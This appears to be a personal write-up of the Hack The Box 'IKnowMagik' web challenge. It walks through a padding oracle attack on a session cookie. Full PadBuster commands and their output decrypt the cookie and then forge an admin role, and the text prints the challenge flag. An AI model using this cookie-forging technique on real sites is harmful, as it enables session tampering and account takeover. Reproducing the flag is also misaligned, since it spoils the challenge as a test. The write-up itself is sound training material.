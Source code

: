 # IKnowMagik - HTB Challenge

Boot up the instance and we're greeted with a login screen. 

`admin:password` Didn't work, so looks like we'll have to register a new account. 

Registration is simple, just a username, something that looks like an email address and our password.

`bob:bob@bob.com:Bobpass1`

That'll do nicely.

Now we're into the application proper we can see what's what in Burp (after intercepting the request of course)

```
GET /profile.php HTTP/1.1
Host: docker.hackthebox.eu:33610
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://docker.hackthebox.eu:33610/login.php
Cookie: PHPSESSID=r9ih83km9m5ocu1of1qtq1jaq1; iknowmag1k=Eq%2BJqXKbFdRJPOcuRxWsVDrrlz18A4Z4Vr0MNwiL6Wu9jFU1NM%2Bmcw%3D%3D
Connection: close
Upgrade-Insecure-Requests: 1

```

Decoding that `iknowmag1k` cookie doesn't get us anywhere, it decodes from URL into Base64, but the resulting string is just a garbled mess. 

> This thing problably has something to do with the ImageTragik vulnerability, but let's not jump to that conclusion just yet and Google around for ImageMagik and cookies. Although it may not have anything to do with ImageMagik either, that cookie may be just something added onto the request. 

The above is an assumption based on the name, it's stupid to make that assumption without any other information about the system/service. So don't f\*\*king do it!

Googling around, this has f\*\*k all to do with ImageMagick and everything to do with a Padding Oracle attack. 

Again, stop making assumptions. It'll just poison your brain as to what the real solution is, keep an open mind and wait until you have the facts on the table before making a decision as to what the issue is.

If we play around with that cookie (i.e. delete some random characters, add some more, etc.) we get some different behaviour from the application. Removing the cookie returns no user data back to the page, which suggests that this cookie is being used to manage the session we're attaching to. If we continue to play around with this cookie then we may be able to gain access to another users account (or session, whichever holds true).

--- 

## Getting our Hands Dirty

![Padbuster](https://github.com/AonCyberLabs/PadBuster)

So we know we need to do a padding oracle attack, and luckily there is a tool that allows us to do just that.

`./padBuster.pl http://docker.hackthebox.eu:30032/profile.php uiZ249RGHP05aZxxRbepl5NmZk4hAucVfstFnH0gnKILZw6ywley3Q%3D%3D 8 -cookies iknowmag1k=uiZ249RGHP05aZxxRbepl5NmZk4hAucVfstFnH0gnKILZw6ywley3Q%3D%3D --encoding 0 --auth bob:Bobpass1`

- `./padbuster.pl` Call the thing
- `http://...` the URL we're targetting
- `ui2239...` a sample of the thing we want to decrypt (the value of the `iknowmag1k` cookie)
- `8` the "block" length, in this case 8 it could be different (usually base16 numbers)
- `--cookies iknowmag1k=uiZ249...` any cookies we want to pass over to allow authentication
- `--encoding 0` since our sample is base64 encoded we need to tell `padbuster` to decode it, simples
- `--auth bob:Bobpass1` any credentials required to allow us to log in

Put that all together, and let her rip.

```
[+] Success: (251/256) [Byte 3]
[+] Success: (243/256) [Byte 2]
[+] Success: (12/256) [Byte 1]

Block 3 Results
[+] Cipher Text (HEX): 7ecb459c7d209ca2
[+] Intermediate Bytes (HEX): fc0a036c1b209266
[+] Plain Text: ole":"us

*** Starting Block 4 of 4 ***

[+] Success: (89/256) [Byte 8]
[+] Success: (102/256) [Byte 7]
[+] Success: (217/256) [Byte 6]
[+] Success: (131/256) [Byte 5]
[+] Success: (28/256) [Byte 4]
[+] Success: (159/256) [Byte 3]
[+] Success: (66/256) [Byte 2]
[+] Success: (237/256) [Byte 1]

Block 4 Results:
[+] Cipher Text (HEX): 0b670eb2c257b2dd
[+] Intermediate Bytes (HEX): 1bb967e1792498a6
[+] Plain Text: er"}

-------------------------------------------------------
** Finished ***

[+] Decrypted value (ASCII): {"user":"bob","role":"user"}

[+] Decrypted value (HEX): 7B2275736572223A22626F62222C22726F6C65223A2275736572227D04040404

[+] Decrypted value (Base64): eyJ1c2VyIjoiYm9iIiwicm9sZSI6InVzZXIifQQEBAQ=

-------------------------------------------------------
```

Now apparently we just append the following to the initial command and we Gucci:

`--plaintext  {"user":"bob","role":"admin"}`

We shall see... 

We are doing something wrong... 

Checked a few write ups and we have the methodology down, we're doing something wrong with our payload though. 

Gonna shut it down, and reload it when I get back to the flat. Then we'll have at it!

---

Turns out that the `--plaintext` flag only accepts a string, so make sure it's contained inside a pair of single quotes! :) 

```
./padBuster.pl http://docker.hackthebox.eu:31094/profile.php FF6zxRWH7VApXxD9wVubs5yoeu1sYItYO8CJxI6VGgUOQRYw3NNno0FwGjDQ1uDrlt7qY1VME3s%3D --cookie "PHPSESSID=7515j8ombgjb56jqvuqg7hfqd4; iknowmag1k=FF6zxRWH7VApXxD9wVubs5yoeu1sYItYO8CJxI6VGgUOQRYw3NNno0FwGjDQ1uDrlt7qY1VME3s%3D" 8 --encoding=0
```

```
./padBuster.pl http://docker.hackthebox.eu:31094/profile.php FF6zxRWH7VApXxD9wVubs5yoeu1sYItYO8CJxI6VGgUOQRYw3NNno0FwGjDQ1uDrlt7qY1VME3s%3D --cookie "PHPSESSID=7515j8ombgjb56jq
vuqg7hfqd4; iknowmag1k=FF6zxRWH7VApXxD9wVubs5yoeu1sYItYO8CJxI6VGgUOQRYw3NNno0FwGjDQ1uDrlt7qY1VME3s%3D" 8 --encoding=0 --plaintext '{"user":"leethacker","role":"admin"}'
```

Re-submit that as our cookie.

Get the flag. 

Winning!

`HTB{Padd1NG_Or4cl3z_AR3_WaY_T0o_6en3r0ys_ArenT_tHey???}`
